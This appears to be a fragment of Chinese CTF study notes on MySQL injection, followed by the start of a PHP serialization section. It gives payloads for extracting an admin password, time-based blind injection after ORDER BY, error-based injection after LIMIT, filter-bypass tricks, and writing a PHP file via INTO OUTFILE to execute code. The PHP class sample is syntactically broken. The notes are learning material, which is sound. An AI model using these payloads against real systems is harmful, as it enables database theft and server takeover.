 2 select title,content from page;

select (select password from user where username='admin') ,content from page;

3 注入点在 group by 或者oder by之后    时间盲注

select title,content from page order by title;

select title,content from page order by title,if(2>1,sleep(3),1);

select * from page order by title,if((select substr(username,1,1) from user where id=1)='a',sleep(3),1);

4 注入点在limit 之后 5.6版本之前  8以后废弃 

select title,content from page limit 1;

select title,content from page limit 1 procedure analyse(updatexml(1,concat("^",(select user()),"^"),1));


包括一些小技巧

1 字符串可以转为16进制来用
select 0x63746673686f77

2 相同或者类似功能的函数相互替换

  substr sustring 

  类似cat 用tac替代绕过检测 

3 mysql 还可以使用into outfile '/var/www/html/1.php' 的形式，从数据读取，转为数据写入，从而实现代码执行
  如果mysql对那个目录有写权限 





## 序列化基础知识引入

### 类与对象


//用户类

```php
//属性和方法的集合
class  user{
    public $username;  //共有属性
    private $password; //私有属性
    protected $userType;
    public static $platform="ctfshow";
//公共方法
	public login(){
    	echo $this->password;
	}
//公共方法
	public logout(){

	}
}
```
